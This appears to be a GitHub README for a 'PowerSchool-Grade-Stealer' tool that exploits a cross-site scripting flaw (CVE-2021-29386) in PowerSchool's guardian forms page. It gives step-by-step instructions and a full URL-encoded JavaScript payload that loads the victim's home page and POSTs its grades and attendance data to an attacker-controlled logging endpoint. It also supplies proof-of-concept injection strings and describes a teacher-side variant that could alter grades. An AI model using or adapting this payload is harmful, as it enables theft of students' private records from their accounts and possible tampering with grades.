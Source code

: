 # PowerSchool-Grade-Stealer

The script in this repository just generates the link for the victim to click on, but it only works on macOS and Linux (if you remove the pbcopy command). A link can be created manually by doing the following:

1. Set up an endpoint URL that logs POST requests to it (can be set up at [Pipedream](https://pipedream.com) by creating an event source).
2. In the following text, replace the text in brackets (and the brackets themselves) with the corresponding information that is described in the brackets:

**[the base URL of the website where PowerSchool is installed]**/guardian/forms.html?sharetype=%22%3Bfunction%20makeHttpObject()%7Btry%7Breturn%20new%20XMLHttpRequest()%7Dcatch(error)%7B%7Dtry%7Breturn%20new%20ActiveXObject(%22Msxml2.XMLHTTP%22)%7Dcatch(error)%7B%7Dtry%7Breturn%20new%20ActiveXObject(%22Microsoft.XMLHTTP%22)%7Dcatch(error)%7B%7Dthrow%20new%20Error(%22Could%20not%20create%20HTTP%20request%20object.%22)%3B%7Dvar%20request%3DmakeHttpObject()%3Brequest.open(%22GET%22%2C%22[**the base URL of the website where PowerSchool is installed]**/guardian/home.html%22%2Ctrue)%3Brequest.send(null)%3Brequest.onreadystatechange%3Dfunction()%7Bif(request.readyState%3D%3D4)console.log(request.responseText)%7D%3B%0A(function()%7B%0A%20%20%20%20var%20oldLog%20%3D%20console.log%3B%0A%20%20%20%20console.log%20%3D%20function%20(message)%20%7B%0A%20%20%20%20%20%20%20%20var%20xhttp%20%3D%20new%20XMLHttpRequest()%3B%0A%20%20%20%20%20%20%20%20xhttp.open(%22POST%22%2C%20%22[**the endpoint's URL]**%22%2C%20true)%3B%0A%20%20%20%20%20%20%20%20xhttp.send(message)%3B%0A%20%20%20%20%20%20%20%20oldLog.apply(console%2C%20arguments)%3B%0A%20%20%20%20%7D%3B%0A%7D)()%3B%0Adocument.body.innerHTML%20=%20%27%27%2F%2F

The payload.js file just contains the URL decoded JavaScript code of this.

Note: This only sends the averages of each course and the absences/tardies.

# The Vulnerability

The vulnerability is present on line 1,042 in forms.html:

`sharetype = "whatever is after sharetype=",`

When quotes are passed after sharetype=, they are not escaped. So a quote may be able to close the string and then a semicolon following that quote may be able to end the whole variable assignment statement. JavaScript code can be appended afterwards and then be followed by a comment operator, "//", to make it ignore the quote and comma that follows: 

/guardian/forms.html?sharetype=";alert()//

In the source code, this appears as:

`sharetype = "";alert()//",`

This bypasses PowerSchool's cross-site scripting mitigation by not using angle brackets. The vulnerability was assigned CVE-2021-29386.

A variant of this vulnerability is also present in the teacher SIS, which can theoretically be used to change grades, though it is harder to exploit due to the fact that it requires sending fields such as a seemingly random student ID.

Proof-of-concept:

/teachers/formbuilder/forms.html?sharetype=";alert()//
